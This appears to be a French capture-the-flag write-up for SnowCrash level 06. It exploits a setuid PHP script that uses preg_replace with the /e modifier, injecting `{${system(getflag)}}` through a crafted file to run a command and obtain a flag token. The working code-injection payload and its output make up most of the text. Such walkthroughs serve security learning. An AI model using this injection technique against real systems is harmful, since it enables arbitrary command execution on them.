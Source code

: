 # LEVEL 06

- Same as usual
```
ls -l
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
cat level06.php
```

```php
#!/usr/bin/php
<?php
function y($m) {
  $m = preg_replace("/\./", " x ", $m);
  $m = preg_replace("/@/", " y", $m);
  return $m;
}
function x($y, $z) {
  $a = file_get_contents($y);
  $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
  $a = preg_replace("/\[/", "(", $a);
  $a = preg_replace("/\]/", ")", $a);
  return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>

```

- `preg_replace` est la seule fonction appellee, en googlant 'preg_replace exploit' on trouve [ca](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4)
- Le script php:
	1. lit un fichier dont le nom est passé en deuxieme argument
	2. passe le contenu de ce fichier a travers une regex de substitution
	3. execute le code

Exemple:
```
level06@SnowCrash:~$ echo "lol" > /var/crash/test
level06@SnowCrash:~$ ./level06 "/var/crash/test"
lol
```

- On veut excecuter getflag dans un terminal, ce qui donne en php `system(getflag)`
- On doit donc ecrire dans un fichier une string qui apres transformation par la regex donne `system(getflag)`
- Une session de bidouille intense sur ce [site](https://www.functions-online.com/preg_replace.html) de regex nous permet de trouver la solution: `{${system(getflag)}}`

```bash
echo "[x {\${system(getflag)}}]" > /var/crash/level06
./level06 /var/crash/level06 xxx
```
```
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
On a trouvé notre Flag!

## ⚡ Flag
`wiok45aaoguiboiki2tuin6ub`

